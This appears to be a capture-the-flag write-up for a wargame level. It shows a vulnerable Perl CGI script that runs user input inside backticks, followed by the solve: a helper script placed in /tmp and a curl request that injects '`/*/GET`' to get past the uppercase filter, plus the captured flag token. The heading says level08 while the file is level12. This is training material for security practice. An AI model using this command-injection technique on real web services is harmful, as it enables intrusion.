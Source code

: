 # level08 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file ` level12.pl `

```
$ ls
> level12.pl
```

As level04, it's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level12.pl  
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

With that we can see 4 important elements :

```
- localhost:4646 -> url, so we can try to call the website with curl

- n(t(param("x"), param("y"))); -> parameters who can contain a value

- $xx = $_[0];			|	  First parameter (x) will be transform
  $xx =~ tr/a-z/A-Z/;	| ->  to uppercase and 
  $xx =~ s/\s.*//;		|	  remove spaces

- @output = `egrep "^$xx" /tmp/xd 2>&1`; -> will be breakable with a code injection cause of ` character
```

According to elements, we should make an injection using an uppercase file (read permisssion) who write ```getflag``` return value on another file

```
$ echo "getflag > /tmp/flag" > /tmp/GET
$ chmod 777 /tmp/GET
```

Ok let's do this

```
$ curl 127.0.0.1:4646?x='`/*/GET`'
> ..
$ cat /tmp/flag
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level11">previous level</a> - <a href="../../level13">next level</a>
